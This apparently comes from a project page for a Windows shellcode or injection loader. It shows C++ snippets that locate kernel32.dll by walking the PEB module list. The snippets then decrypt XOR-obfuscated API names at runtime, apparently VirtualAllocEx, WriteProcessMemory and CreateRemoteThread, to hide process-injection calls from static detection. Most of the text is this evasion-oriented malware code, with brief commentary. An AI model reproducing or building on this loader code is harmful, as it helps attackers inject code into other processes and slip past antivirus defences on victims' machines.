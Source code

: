 ```cpp
  __asm {
        mov eax, fs: [0x30]
        mov peb, eax
    }


```
Iterates through the list of loaded modules in the process to find kernel32.dll and obtain its base address.
```cpp
 lEntry = peb->Ldr->InLoadOrderModuleList.Flink;
    do {
        module = CONTAINING_RECORD(lEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

        char baseDllName[256];
        int i;
        for (i = 0; i < module->BaseDllName.Length / sizeof(WCHAR) && i < sizeof(baseDllName) - 1; i++) {
            baseDllName[i] = (char)module->BaseDllName.Buffer[i];
        }
        baseDllName[i] = '\0';

        if (_stricmp(baseDllName, "kernel32.dll") == 0) {
            k32baseAddr = (HMODULE)module->DllBase;
        }

        lEntry = lEntry->Flink;
    } while (lEntry != &peb->Ldr->InLoadOrderModuleList);
```
Resolves and uses functions from kernel32.dll to perform further operations like memory allocation and writing. All APIs are obfuscated and decrypting on runtime to resolve the addresses. 

```cpp
 unsigned char sGPA[] = { 0x28, 0x03, 0x12, 0x35, 0x1c, 0x1c, 0x0a, 0x37, 0x01, 0x14, 0x13, 0x0b, 0x17, 0x12 };
                unsigned char sLLA[] = { 0x23, 0x09, 0x07, 0x01, 0x22, 0x1a, 0x0b, 0x04, 0x04, 0x02, 0x18, 0x2f };
                LPCSTR Z = DAndP(sGPA, sizeof(sGPA), key, k_len);
                LPCSTR X = DAndP(sLLA, sizeof(sLLA), key, k_len);
                ptrGetProcAddress = (GETPROCADDRESS)GetProcAddressKernel32(k32baseAddr, Z);
                ptrLoadLibraryA = (LOADLIBRARYA)GetProcAddressKernel32(k32baseAddr, X);
                HMODULE kernel32Base = ptrLoadLibraryA("kernel32.dll");
                unsigned char sVAEx[] = { 0x39, 0x0f, 0x14, 0x11, 0x1b, 0x12, 0x05, 0x37, 0x09, 0x1c, 0x0e, 0x0d, 0x21, 0x19 };
                unsigned char sWPM[] = { 0x38, 0x14, 0x0f, 0x11, 0x0b, 0x23, 0x1b, 0x19, 0x06, 0x15, 0x12, 0x1d, 0x29, 0x04, 0x02, 0x09, 0x14, 0x1c };
                unsigned char sCRT[] = { 0x2c, 0x14, 0x03, 0x04, 0x1a, 0x16, 0x3b, 0x13, 0x08, 0x1f, 0x15, 0x0b, 0x30, 0x09, 0x1d, 0x03, 0x07, 0x01 };
                LPCSTR A = DAndP(sVAEx, sizeof(sVAEx), key, k_len);
                LPCSTR B = DAndP(sWPM, sizeof(sWPM), key, k_len);
                LPCSTR C = DAndP(sCRT, sizeof(sCRT), key, k_len);
```
